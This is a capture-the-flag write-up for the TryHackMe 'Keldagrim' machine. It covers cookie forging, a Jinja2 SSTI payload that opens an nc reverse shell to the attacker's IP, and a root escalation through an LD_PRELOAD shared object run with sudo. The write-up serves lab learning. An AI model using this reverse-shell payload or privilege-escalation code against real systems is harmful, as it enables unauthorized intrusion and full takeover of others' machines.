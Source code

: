 ```yaml
---
title: "Keldagrim WriteUp"
categories: [ctf]
date: 2022/07/22
description: TryHackMe Biblioteca WriteUp.
---
```

# TryHackMe | Keldagrim

Hello everyone,

I will explain the solution of the medium level machine as clearly as i work.

<p align="center">
  <img src="/img/keldagrim_thm/loky.png">
</p>

Let's first scan for open ports and services with nmap.

```bash
sudo nmap -sSCV 10.10.211.169 -T4 -v
```

<p align="center">
  <img src="/img/keldagrim_thm/0.png">
</p>

The web application is running on port 80 and the ssh service is active. let's switch to web application


<p align="center">
  <img src="/img/keldagrim_thm/1.png">
</p>

here we see a cookie with base64. What happens if we change this?

<p align="center">
  <img src="/img/keldagrim_thm/2.png">
</p>

It looks like there is an admin user and let's try to set our cookie accordingly

```bash
└─$ echo -n Z3Vlc3Q= | base64 -d
guest 

└─$ echo -n admin | base64   
YWRtaW4
```

<p align="center">
  <img src="/img/keldagrim_thm/3.png">
</p>

I've logged into admin. Since I don't understand anything here, I tried to interrupt with the burp suite.

<p align="center">
  <img src="/img/keldagrim_thm/4.png">
</p>

When we decoded the "sales" value, it gave us a result. this is the same result we just saw on the admin page.

```bash
└─$ echo -n JDIsMTY1 | base64 -d
$2,165
```
Two things came to mind here. rce and ssti. I wanted to try the ssti because it made more sense.


<p align="center">
  <img src="/img/keldagrim_thm/5.png">
</p>

I verified it's ssti and created a payload to get the reverse shell.

```bash
"{{ namespace.__init__.__globals__.os.popen('rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.77.152 8787 >/tmp/f').read() }}"
```

<p align="center">
  <img src="/img/keldagrim_thm/6.png">
</p>


<p align="center">
  <img src="/img/keldagrim_thm/7.png">
</p>


```bash
Matching Defaults entries for jed on keldagrim:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    env_keep+=LD_PRELOAD

User jed may run the following commands on keldagrim:
    (ALL : ALL) NOPASSWD: /bin/ps
jed@keldagrim:~$
```

I saw that the ps command works with sudo. but also that it belongs to the LD_PRELOAD environment

and I researched for privilege escalation

```bash
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/sh");
}
```

I saved the c codes in the exploit.c file and ran the following commands in the terminal to switch to root session

```bash
gcc -fPIC -shared -o exploit.so exploit.c -nostartfiles
ls -al exploit.so
sudo LD_PRELOAD=/tmp/exploit.so ps
```

```bash
whomi

cat /root/root.txt && cat /home/jed/user.txt
```


